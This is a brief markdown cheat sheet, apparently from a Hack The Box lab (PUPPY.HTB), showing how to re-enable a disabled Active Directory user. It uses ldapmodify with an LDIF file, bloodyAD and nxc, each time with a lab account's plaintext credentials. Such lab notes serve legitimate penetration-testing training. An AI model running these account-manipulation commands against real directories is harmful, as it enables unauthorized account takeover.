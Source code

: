 
---

# Enable `STATUS_ACCOUNT_DISABLED` users.

## ldapmodify
1. **Find the DN of the user** (Distinguished Name):
```
ldapsearch -x -H ldap://10.10.11.70 -D 'levi.james@PUPPY.HTB' -w 'KingofAkron2025!' -b "DC=PUPPY,DC=HTB" "(sAMAccountName=jamie)"

dn: CN=JAMIE WILLIAMSON,OU=Users,DC=PUPPY,DC=HTB
```
2. **Create an LDIF file** (e.g., `enable.ldif`):
```sh
dn: CN=JAMIE WILLIAMSON,OU=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512
#512 → enabled account , 514 → disabled account
```
3. **Apply the LDIF using `ldapmodify`**:
```sh
ldapmodify -x -H ldap://10.10.11.70 -D 'levi.james@PUPPY.HTB' -w 'KingofAkron2025!' -f enable.ldif
```


## bloodyAD 
```sh
bloodyAD -u 'levi.james' -p 'KingofAkron2025!' -d 'PUPPY.HTB' --target-user 'JAMIE WILLIAMSON' --enable
```

## nxc
```sh
nxc ldap 10.10.11.70 -d PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' --modify "CN=JAMIE WILLIAMSON,OU=Users,DC=PUPPY,DC=HTB" userAccountControl 512
```

---
